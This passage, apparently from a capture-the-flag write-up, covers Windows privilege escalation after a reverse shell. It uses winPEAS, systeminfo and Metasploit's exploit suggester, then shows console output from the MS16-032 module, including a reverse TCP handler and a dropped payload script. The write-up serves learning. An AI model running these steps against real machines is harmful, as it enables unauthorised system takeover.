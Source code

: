 ![3](assets/3.png)

From here I uploaded winPREAS.exe to the target host to see if I could find any credentials laying around or if the script would suggest some exploits for me.

However, winpeas wasent overly helpful.
At this point I went back to my reverse shell and entered the command `systeminfo` to see if I could get the exact Operating system build number and perform a manual search online.

While searching I found that the machine was potentially vulnerable to [MS16_032](https://www.exploit-db.com/exploits/39719)

I was also able to verify this when I backgrounded the metasploit session with the `background` command and executed the handy dandy exploit suggester.
```go
 1   exploit/windows/local/bypassuac_eventvwr
 2   exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

## SYSTEM Shell
Upon executing the MS16_032, I was successfully able to escalate my privileges to system.
```bash
[*] Started reverse TCP handler on 10.10.16.5:4444 
[+] Compressed size: 1160
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\oyEvwV.ps1...
[*] Compressing script contents...
[+] Compressed size: 3749
[*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
```
